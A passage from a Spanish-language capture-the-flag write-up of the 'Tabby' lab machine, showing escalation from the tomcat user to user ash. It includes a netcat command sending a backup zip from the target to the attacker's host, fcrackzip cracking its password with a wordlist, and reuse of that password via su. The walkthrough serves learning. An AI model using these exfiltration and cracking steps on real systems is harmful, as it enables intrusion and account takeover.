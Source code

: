 Vemos el usuario **ash** en el directorio home, pero no tenemos acceso a el. Veamos que podemos usar para obtenerlo. Buscando de que archivos es owner el usuario **tomcat** no obtenemos nada relevante... Si lo hacemos con **ash** obtenemos esto:

```bash
tomcat@tabby:/var/lib/tomcat9$ find / -user ash -ls 2>/dev/null | grep -v proc | grep -v sys
   667268      4 drwxr-xr-x   4 ash      ash          4096 Jun 17 21:59 /var/www/html/files
   655666     12 -rw-r--r--   1 ash      ash          8716 Jun 16 13:42 /var/www/html/files/16162020_backup.zip
   794579      4 drwxr-x---   9 ash      ash          4096 Oct  8 21:58 /home/ash
        2      0 drwx------   6 ash      ash           180 Oct  8 19:57 /run/user/1000
```

Pasemos ese archivo `.zip` a nuestra máquina e intentemos crackearlo.

```bash
# En nuestra maquina
─╼ $ nc -lvp 4445 > 16162020_backup.zip

# En la maquina objetivo, con el `-w` le indicamos el timeout de espera
tomcat@tabby:/var/lib/tomcat9$ md5sum /var/www/html/files/16162020_backup.zip
tomcat@tabby:/var/lib/tomcat9$ nc -w 5 10.10.15.86 4445 < /var/www/html/files/16162020_backup.zip

# Despues en nuestra maquina validamos la integridad, si los dos hashes son iguales, prosigamos
─╼ $ md5sum 16162020_backup.zip
```

Ahora usamos **fcrackzip**

```bash
─╼ $ fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip 
'var/www/html/assets/' is not encrypted, skipping
found file 'var/www/html/favicon.ico', (size cp/uc    338/   766, flags 9, chk 7db5)
'var/www/html/files/' is not encrypted, skipping
found file 'var/www/html/index.php', (size cp/uc   3255/ 14793, flags 9, chk 5935)
found file 'var/www/html/logo.png', (size cp/uc   2906/  2894, flags 9, chk 5d46)
found file 'var/www/html/news.php', (size cp/uc    114/   123, flags 9, chk 5a7a)
found file 'var/www/html/Readme.txt', (size cp/uc    805/  1574, flags 9, chk 6a8b)
checking pw arizon1                                 

PASSWORD FOUND!!!!: pw == admin@it 
```

* -v : Nos muestra el progreso de lo que va encontrando
* -u : Para que intente descomprimir el archivo apenas encuentre la contraseña
* -D : Modo diccionario
* -p : Pasamos el diccionario que usará

Listos, procedamos a ver que tenemos dentro... Pues nada importante. (Acá estuve un buen rato, enumerando y enumerando, ya que no sabía hacia donde ir).

Pues resulta que si probamos en la máquina:

```bash
tomcat@tabby:/var/lib/tomcat9$ su ash
Password: admin@it

ash@tabby:/var/lib/tomcat9$
```
